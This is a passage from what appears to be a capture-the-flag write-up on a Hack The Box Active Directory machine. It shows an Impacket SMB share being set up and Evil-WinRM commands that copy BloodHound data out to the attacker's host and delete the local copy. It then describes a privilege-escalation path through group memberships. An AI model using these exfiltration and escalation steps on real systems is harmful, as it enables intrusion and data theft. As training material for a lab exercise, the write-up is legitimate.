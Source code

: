     
    root@kali# smbserver.py share . -smb2support -username df -password df
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    
    [*] Config file parsed                                   
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed                                   
    [*] Config file parsed                                   
    [*] Config file parsed     
    

Now on Forest:

    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.14.6\share /u:df df
    The command completed successfully.
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20191018035324_BloodHound.zip \\10.10.14.6\share\
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> del 20191018035324_BloodHound.zip   
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use /d \\10.10.14.6\share
    \\10.10.14.6\share was deleted successfully.
    

#### Load Data

I covered the [installation of Bloodhound in my Reel writeup](/2018/11/10/htb-
reel.html#bloodhound). I’ll load the data by clicking the

![1571511000876](https://0xdfimages.gitlab.io/img/1571511000876.png)

button on the right side, and selecting my zip exfil. Under “Queries”, I’ll
click “Find Shorter Paths to Domain Admin”, and get the following graph:

![1571511066627](https://0xdfimages.gitlab.io/img/1571511066627.png)

### Path

There’s two jumps needed to get from my current access as svc-alfresco to
Administrator, who is in the Domain Admins group.

#### Join Exchange Windows Permissions Group

Because my user is in Service Account, which is a member of Privileged IT
Account, which is a member of Account Operators, it’s basically like my user
is a member of Account Operators. And Account Operators has Generic All
privilege on the Exchange Windows Permissions group. If I right click on the
edge in Bloodhound, and select help, there’s an “Abuse Info” tab in the pop up
that displays:

![1571511287322](https://0xdfimages.gitlab.io/img/1571511287322.png)

This gives a full background as to how to abuse this, and if I scroll down, I
see an example:
